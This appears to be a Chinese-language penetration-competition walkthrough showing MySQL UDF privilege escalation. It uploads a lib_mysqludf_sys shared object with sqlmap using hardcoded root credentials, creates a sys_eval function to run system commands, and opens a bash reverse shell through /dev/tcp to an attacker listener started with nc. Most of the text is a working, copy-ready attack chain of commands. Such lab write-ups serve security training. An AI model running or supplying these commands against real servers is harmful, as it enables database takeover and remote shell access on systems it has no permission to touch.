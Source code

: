 尝试udf提权，右击左边的数据库连接并选择命令列界面。

![image-20220530101534000000-1656056049062107.png](img/中小型企业环境网络安全渗透赛 local/633d2c59db20c981f124b5dfd7e0245c.png)

使用SQL语句检查相关的路径及权限

```
show variables like "%plugin%";

show variables like "%secure_file%";
```

![image-20220528124632000000-1656056050717168.png](img/中小型企业环境网络安全渗透赛 local/f3532ff5e4af7e53b7d68cf60a0f4201.png)

满足udf提权的条件

使用sqlmap上传so文件，工具位置：

`C:\Tools\sqlmap\sqlmap\sqlmap.py`

```
python3 sqlmap.py -d "mysql://root:Cf5BAMPTYkrx@56.47.33.75:3306/mysql" --file-write="C:\Tools\sqlmap\sqlmap\data\udf\mysql\linux\64\lib_mysqludf_sys.so_" --file-dest="/usr/lib64/mysql/plugin/udf.so"
```

![image-20220528125216000000-1656056052388024.png](img/中小型企业环境网络安全渗透赛 local/e5b2865cfba8f2385d2ccdf06cdec064.png)

sqlmap上传文件后，在Navicat Premium中执行如下命令

```
use mysql;
select * from func;
create function sys_eval returns string soname 'udf.so';
select sys_eval('whoami');
```

![image-20220528125236000000-1656056054438560.png](img/中小型企业环境网络安全渗透赛 local/ee6b9b6848b9f6647ef502ac6fe11c9e.png)

kali开启监听

```
nc -lvp 8888
```

![image-20220530162146000000-1656056056007472.png](img/中小型企业环境网络安全渗透赛 local/0ce0f57b06257f85bc4eb245eb54ff62.png)

win10攻击机数据库执行命令(kali的ip)：

```
select sys_eval('bash -i >& /dev/tcp/56.47.34.110/8888 0>&1');
```

![image-20220530161856000000-1656056057651911.png](img/中小型企业环境网络安全渗透赛 local/261f08df09b53e69f563c54acd0f628b.png)

kali成功反弹shell

![image-20220530162046000000-1656056059221804.png](img/中小型企业环境网络安全渗透赛 local/2a8ac97c5a99305b57d6bbc6931f8d5c.png)
